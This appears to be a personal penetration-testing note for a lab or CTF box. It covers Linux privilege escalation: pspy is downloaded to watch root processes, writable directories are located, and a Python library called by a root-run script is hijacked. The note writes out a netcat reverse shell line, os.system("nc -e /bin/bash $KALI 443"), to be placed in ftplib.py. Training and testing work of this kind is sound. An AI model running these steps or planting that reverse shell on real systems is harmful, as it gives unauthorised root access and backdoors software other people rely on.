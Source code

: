 32 or 64?
```bash - target
uname -a
```

32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

transfer to Target

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
chmod +x pspy64
```

```bash - target
./pspy64
```

Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.

![[Pasted image 20211229224921.png | 1000]]

```bash - target
find / -writable -type d 2>/dev/null
```

![[Pasted image 20221110104834.png]]

```bash - target
cat /opt/ftpclient/ftpclient.py
```

```bash - kali
cd /usr/lib/python2.7
```

Check if we have read / write privs:
```bash - kali
ls -lah ftplib.py
```

Open the file, and put in a reverse shell command:
```bash - kali
nano ftplib.py
```

![[rlwrap]]

```python - kali
os.system("nc -e /bin/bash $KALI 443")
```

![[Pasted image 20211229225151.png]]











